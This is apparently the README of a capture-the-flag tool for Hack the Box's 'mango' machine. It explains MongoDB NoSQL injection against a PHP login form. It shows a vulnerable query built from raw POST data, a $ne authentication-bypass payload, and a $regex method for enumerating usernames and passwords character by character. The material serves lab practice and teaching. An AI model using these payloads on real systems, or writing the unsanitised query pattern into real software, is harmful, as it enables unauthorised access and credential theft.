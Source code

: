# enum-nosql
MongoDB noSQL injection exploit example from **Hack the Box / mango** <https://app.hackthebox.com/machines/214> for usernames and their password enumeration.

## authentication bypass
If parameter values are directly taken from autentization form as follow:
```php
$query = array("username" => $_POST["username"], "password" => $_POST["password"]);
```

It's possible to use PHP's associative array processing to inject query that return always true and bypass autentication process.
```php
username[$ne]=""&password[$ne]=""
```

PHP process malformed input as follow and 
```php
$query = array("username" => array("$ne" => ""), "password" => array("$ne" => ""));
```

## username and password enumeration
It's possible to use also regular expressions in query and try to guess username letters one by one.
```php
username[$regex]="^{letter from wordlist}"&password[$ne]=""""
```

If there is username for example "alice" and we start with first letter from wordlist 'a' with following query:
```php
username="{found username}"&password[$regex]="^a"
```

The querry returns *true* value so we know that there is username with letter a on first possition. If query returns false we continue with next letter from wordlist. In this way is possible to expose whole username letter by letter. It's necessary to go through all wordlist letters even if query returns true because there could be more usernames specified (alice, alida, allisha,... and of course bob) with same username prefix (in script is possible to solve it with recursions).

After usernames are enumeration it's possible to enumerate passwords with following querry:
```php
username="{found username}"&password[$regex]="^{letter from wordlist}"
```

## usage
```bash
enum-nosql -u {target_ip}
```
